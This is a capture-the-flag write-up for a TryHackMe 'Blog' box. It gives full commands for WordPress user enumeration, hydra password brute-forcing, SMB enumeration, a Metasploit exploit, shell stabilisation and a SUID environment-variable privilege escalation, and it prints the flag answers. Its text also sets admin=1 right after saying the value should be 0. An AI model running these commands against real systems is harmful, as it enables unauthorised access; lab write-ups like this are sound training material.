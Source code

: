 # Blog
> Franco Contreras

### Enumeration

```bash
echo "10.10.80.125   blog.thm" >> /etc/hosts
export IP=10.10.80.125
nmap -A $IP -oN scans/nmap.log
gobuster dir -u $IP -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt | tee scans/gobuster.log

```

What inmediately looks more interesting is **/wp-login.php**

[wpscan](https://github.com/wpscanteam/wpscan)
## Find wordpress users
```bash
wpscan --url $IP --enumerate u
```


Explore the source code<br>

![](images/image1.png) 

Username **kwheel** was discovered by wpscan and visual inspection of the html code

## Try to crack the password
<details>
<summary>Tip</summary>
<p>
Use burpsuite to get the body of the post request necesary for the hydra syntax

![](images/image2.png) <br>


</details>

```bash
hydra -l kwheel -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V
```
## Success!!

![](images/image3.png) <br>


## Alternative
```bash
python2.7 /opt/WPForce/wpforce.py -i /home/user/THM/Blog/users.txt -w /usr/share/wordlists/rockyou.txt -u "http://blog.thm"
```

## Enumerate SMB

```bash
export IP=10.10.202.171
nmap --script smb-enum-shares.nse -p445 $IP
smbclient //$IP/BillySMB
```

<details><summary>Tip</summary>
This is a dead end, tools like zbarimg binwalk exiftool and steghide would help
</details>


## Look for a exploit

[CVE 20198973](https://www.exploit-db.com/exploits/46662)

1 - Get in with metasploit<br>
2 - Get a shell<br>
3 - Stabilize the shell 

![](images/video1.gif)

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

4 - Find probable priv esc routes<br>

```bash
find / -perm -u=s -type f 2>/dev/null
find / -perm -g=s -type f 2>/dev/null
```
![](images/usrbincheker.png)

## **/usr/sbin/checker** is not a normal binary and there is nohing in [gtfobins](https://gtfobins.github.io/) about it, explore it with [ltrace](https://en.wikipedia.org/wiki/Ltrace)

![](images/ltrace.png)

```bash
ltrace /usr/sbin/checker
```
## What if we create an enviroment variable called admin and give it the value 0 then run the binary

```bash
export admin=1
/usr/sbin/checker
```

![](images/root.png)


<details><summary>root.txt</summary>
9a0b2b618bef9bfa7ac28c1353d9f318
</details>

```
find / -name '*root.txt' 2>/dev/null
```





<details><summary>user.txt</summary>
<p>
c8421899aae571f7af486492b71a8ab7
</p>
</details>

```
find / -name '*user.txt' 2>/dev/null
```
